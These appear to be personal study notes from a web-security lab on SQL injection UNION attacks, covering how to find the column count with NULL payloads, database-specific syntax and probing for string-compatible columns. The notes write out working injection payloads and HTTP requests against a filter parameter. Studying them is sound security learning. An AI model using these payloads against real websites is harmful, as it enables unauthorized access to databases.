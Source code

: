 ```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

If a number of nulls does not match the number of columns, the db will return the error
```sh
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Why do we use NULL value?
- the data types in each column must be compatible between the original and the injected queries
- NULL is convertible to every common data type
- it maximizes the chance that the payload will succeed

Indicators
- when number of nulls matches the number of columns, the db returns an additional row in the result set, containing NULL values in each column
- effect on HTTP response depends on the application code
- Null values may trigger NullPointerException error
- If error is the same a always - method is ineffective

### Lab
`Positive`
```HTTP
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
```

![[Pasted image 20241103054107.png]]

`Negative`
```HTTP
GET /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/2
```

![[Pasted image 20241103054147.png]]


### Database-specific syntax
`Oracle` for example uses build-in table "dual"
```sql
' UNION SELECT NULL FROM DUAL--
```

`MySQL` double-dash must be followed by a space or hash can be used to comment


## Finding columns with useful data type
- you want to retrieve data in string format, 
- so you have to find one or more columns whose data type is, or is compatible with, string data
- after you determined number of required columns
	- probe each column to test whether it can hold string data
	- submit a series of `UNION SELECT` payloads that place a string value into each column in turn
	- if a query returns 4 columns
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
- if column data type is not compatible with string data, injected data will cause db error
```sh
Conversion failed when converting the varchar value 'a' to data type int.
```